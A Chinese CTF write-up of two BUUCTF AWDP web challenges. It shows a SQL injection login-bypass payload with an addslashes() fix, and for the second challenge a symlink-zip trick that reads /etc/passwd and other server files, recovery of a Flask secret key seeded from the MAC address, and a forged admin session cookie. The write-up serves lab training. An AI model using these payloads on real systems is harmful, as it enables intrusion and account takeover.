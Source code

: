 # BUUCTF awdp加固题


两道awdp-web加固题

<!--more-->

## [Ezsql]

![image-20230616161943315](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616161943315.png)

### 1.break

首先进入靶机web页面

![image-20230616162115816](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616162115816.png)

猜了弱口令都不对，尝试sql万能密码成功登录

```
用户名：admin' or 1=1#
密码：(填不填都行，填啥也行)
```

题目要求对页面存在的sql注入漏洞进行加固，即可取得flag

### 2.fix

根据题目给的地址端口以及用户名，ssh连接至靶机，进入/var/www/html/目录

![image-20230616162754875](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616162754875.png)

在此处新建一个phpinfo.php并写入语句

```
<?php phpinfo(); ?>
```

![image-20230616205637225](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616205637225.png)

访问phpinfo.php可以看到当前php版本为7.3.18

![image-20230616205717499](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616205717499.png)

php中防止sql注入的函数无非就那么几个：（我所知道的）

addslashes()

mysql_real_escape_string() 在php5.5中已经弃用，并在php7中被删除

mysql_escape_string() PHP 4 >= 4.0.3, PHP 5

在PHP7中，能用的只有addslashes()

故应在index.php中添加以下代码

```
$username = addslashes($username);
$password = addslashes($password);
```

添加在此处：

![image-20230616210551430](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616210551430.png)

随后进入check服务器/check目录进行check
![image-20230616210742088](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616210742088.png)

通过之后访问/flag得到flag字符串

## [babypython]

![image-20230616215912341](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616215912341.png)

### 1.break

进入靶机web页面，是个上传界面，经过尝试后发现只能上传zip文件，猜测是通过上传软链接的压缩包来读取相关信息（压缩一个软链接，类似于windows下的快捷方式，然后网站后台会解压读取该软链接指向的服务器上的文件，就能达到读取任意文件的效果。）
![image-20230616215852903](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616215852903.png)

在Linux环境下：

```
ln -s /etc/passwd passwd
zip -y passwd.zip passwd
```

生成了一个读取**/etc/passwd**的zip软链接**
随后上传我们得到的压缩包passwd.zip便可以在web页面看到回显的passwd文件信息

![image-20230616221815139](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616221815139.png)

再来读取下**app/uwsgi.ini**

> uWSGI是一个Web应用服务器，它具有应用服务器，代理，进程管理及应用监控等功能。它支持WSGI协议，同时它也支持自有的uWSGI协议
>
> 

![image-20230616222232148](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616222232148.png)

读一下**/app/main.py**

![image-20230616222907980](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616222907980.png)

最终找到源码文件：*/app/y0u_found_it/y0u_found_main.py*

![image-20230616232950895](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616232950895.png)

```
app.config[‘SECRET_KEY’] = str(random.random()*100)
random.seed(uuid.getnode())	设置随机数种子操作。
python random				生成的数是伪随机数
uuid.getnode()				这个函数可以获取网卡mac地址并转换成十进制数返回
```

通过读`/sys/class/net/eth0/address`文件得到mac地址，于是构造软链接、生成zip、上传看返回结果。

![image-20230616235529631](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616235529631.png)

然后就是把mac地址处理下，转换成二进制，然后设置成seed，生成一下KEY

```
import uuid
import random

mac = "c6:98:94:10:39:c6"
temp = mac.split(':')					#去掉":"
temp = [int(i,16) for i in temp]		#遍历mac
temp = [bin(i).replace('0b','').zfill(8) for i in temp]	#十六进制转二
temp = ''.join(temp)					#得到的值赋给temp
mac = int(temp,2)
random.seed(mac)						#将mac作为种子
randStr = str(random.random()*100)
print(randStr)
```

得到KEY:68.61339598479617

同时根据页面提示，只有admin才能获得flag，尝试通过伪造session来伪造admin身份用**flask-session-cookie-manager**伪造session

```
C:\Users\Scofield_Lee\Desktop\flask-session-cookie-manager>python flask_session_cookie_manager3.py encode -s '68.61339598479617' -t "{'username': 'admin'}"

eyJ1c2VybmFtZSI6ImFkbWluIn0.ZIyJeg.8rUFY72cFh1JQAALMZKX79N3j2w
```

得到session：`eyJ1c2VybmFtZSI6ImFkbWluIn0.ZIyJeg.8rUFY72cFh1JQAALMZKX79N3j2w`

### 2.fix

。。。。。
